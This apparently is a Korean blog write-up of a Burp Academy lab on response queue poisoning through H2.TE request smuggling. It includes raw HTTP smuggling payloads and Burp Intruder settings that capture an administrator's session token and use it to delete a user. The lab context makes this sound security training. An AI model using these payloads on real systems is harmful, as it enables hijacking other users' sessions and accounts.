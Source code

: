 ```yaml
---
layout: post
title: "Burp Academy-HTTP Request Smuggling 관련 취약점: Response queue poisoning via H2.TE request smuggling"
categories: [보안취약점, Burp Academy]
tags: [보안취약점, Burp Academy, HTTP Request Smuggling]
toc: true
last_modified_at: 2024-02-06 21:00:00 +0900
---
```


# 개요
- HTTP Request Smuggling 취약점 문제이다. 여기서부터는 HTTP 프로토콜2를 사용하는 서버에 대한 스머글링을 사용한다.Advanced 토픽이다. 
- 문제 주소: https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning/lab-request-smuggling-h2-response-queue-poisoning-via-te-request-smuggling
- 취약점 설명페이지: https://portswigger.net/web-security/request-smuggling/advanced/response-queue-poisoning
- 난이도: PRACTITIONER (보통)

# 취약점 개요 (Response queue poisoning)
- 꽤 임팩트가 크다. 프론트엔드 서버와 백엔드 사이에 사용하는 응답 큐가 오염되면, 공격자는 본래 다른 유저에게 갈 응답을 캡쳐할 수 있다. 
- 응답큐가 오염되었다는 것은 중간에 다른 요청이 끼어듬으로 인해 순서가 하나씩 다 밀리는 현상이다.
- 하나씩 다 밀리므로 웹 사이트의 마지막 요청을 보낸 사용자에게 본래 보낼 응답은 큐에 남아 있는 상태가 된다. 
- 이 때 공격자가 웹 사이트에 요청을 보내면 어떻게 될까? 위의 마지막 유저의 응답을 가로챌 수 있다. 여기에 세션토큰과 같은 중요정보가 포함되어 있다면 어카운트 탈취로 이어질 수 있다. 

# 랩 개요
- 이 랩은 프론트 엔드 서버와 백엔드 서버로 구성되어 있다. 프론트 엔드 서버는 HTTP/2 요청을 백엔드에 전송할 때 HTTP1으로 다운그레이드한다. 이로 인해서 스머글링이 가능하다. 
- 랩을 풀려면 응답 큐 포이즈닝(response queue poisoning)을 이용해서 admin패널에 접근하여 carlos유저를 삭제하면 된다. 
- admin은 15초마다 웹 사이트를 방문한다. 
```
This lab is vulnerable to request smuggling because the front-end server downgrades HTTP/2 requests even if they have an ambiguous length.

To solve the lab, delete the user carlos by using response queue poisoning to break into the admin panel at /admin. An admin user will log in approximately every 15 seconds.

The connection to the back-end is reset every 10 requests, so don't worry if you get it into a bad state - just send a few normal requests to get a fresh connection.
```

# 풀이 시도
1. H2.CL 타입의 체크용 페이로드를 보내본다. 


```http
POST / HTTP/2
Host: 0ae20076039ab2c58192750a008d00fe.web-security-academy.net
Cookie: session=DDz3ojK0oI01wDQhGx8bCokRKjTdUwnX
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Length: 0

GET /404 HTTP/1.1
Host: 0ae20076039ab2c58192750a008d00fe.web-security-academy.net
Content-Length: 5

x=1
```

2. 그런데 이번에는 200응답밖에 돌아오지 않는다. 스머글링이 안되고 있는 것이다. 왜일까? 

3. 확장 프로그램 HTTP Request Smuggler 를 써본다. 어허.. 그런데 웬걸. 이 스캐너로도 탐지가 안된다! 

4. 실제로는 되고 있는 것인지도 모른다. Burp Intruder로 지속적으로 요청을 보내고 응답을 확인해봤다. 수백개 전달해봤지만 응답이 동일하다. 스머글링이 안되고 있는 것 같다. 

어쩔 수 없다. 답을 본다. 

# 답 보고 풀이
아아.. 이번 문제는 H2.TE 타입이었다. H2.CL 용 페이로드를 보내도 반응이 없었을 만하다.

## 스머글링되는 것을 확인
H2.TE 타입 페이로드로 스머글링이 되는 것을 확인했다. 이 페이로드를 보내면 세번째응답에서 404응답이 회신된다.

```http
POST / HTTP/2
Host: 0a3900cb047389a4877bdf20009d0087.web-security-academy.net
Transfer-Encoding: chunked

0

SMUGGLED
```

![H2.TE 타입 페이로드로 스머글링이 되는 것을 확인](/images/burp-academy-hrs-14-1.png)

## 관리자 페이지 스머글링시도

관리자 페이지(`GET /admin HTTP/1.1`)에 접근해본다. 그러면 400 Bad Request 응답이 회신된다. 이는 Host헤더의 끝에 개행문자(\r\n)가 하나만 있기 때문이다.

![admin 페이지에 접근시도1](/images/burp-academy-hrs-14-2.png)

하나 더 추가해서 Host헤더의 끝을 \r\n\r\n로 만들면 제대로 동작한다. 이번엔 `HTTP/2 401 Unauthorized`가 회신된다. 

```tttp
POST / HTTP/2
Host: 0a3900cb047389a4877bdf20009d0087.web-security-academy.net
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: 0a3900cb047389a4877bdf20009d0087.web-security-academy.net


```

![admin 페이지에 접근시도2](/images/burp-academy-hrs-14-3.png)

## 관리자 세션 토큰 훔치기 
정답에는 다음 테크닉이 소개되어 있다. 원래의 HTTP 요청도 404응답이 오는 경로 (GET /x) 를 지정하고, 스머글링하는 요청에서 동일하게 404응답이 오는 경로 (GET /x) 를 지정하는 테크닉이다. 이러면 HTTP 응답 큐 포이즈닝이 성공해서 다른 유저의 응답을 받게 되면 404응답이 아니게 되므로 응답코드를 보고 스머글링이 성공했는지를 알 수 있다. 

![404응답 확인](/images/burp-academy-hrs-14-4.png)

요청을 계속해서 보내야하므로 Intruder를 사용하면 좋다. 페이로드는 Null payloads를 선택하고 횟수는 적당히 500번 반복을 지정한다. 

![Intruder설정-페이로드](/images/burp-academy-hrs-14-5.png)

리소는 풀은 Concurrent requests(동시 요청수) 를 1로, 딜레이는 1초로 준다. 

![Intruder설정-리소스풀](/images/burp-academy-hrs-14-6.png)

Attack을 클릭해서 공격을 수행한다. 30x번대 응답이 왔을 때만 보여주도록 필터링을 걸어두면 보기 편하다. 144번째 요청에서 302응답이 확인되었다. 관리자 계정의 세션 토큰이 보이는 것을 알 수 있다. 

![관리자토큰획득](/images/burp-academy-hrs-14-7.png)

이 세션토큰을 사용해서 관리자 페이지에 접근한다. 접근에 성공하면 유저 삭제 링크가 보이는 것을 알 수 있다. 

![관리자 페이지 접근 성공](/images/burp-academy-hrs-14-8.png)


carlos 유저를 삭제한다. 성공하면 302응답이 돌아오고 문제 풀이에 성공했다는 메세지가 표시된다. 

![carlos 유저 삭제](/images/burp-academy-hrs-14-9.png)

![풀이 성공](/images/burp-academy-hrs-14-success.png)





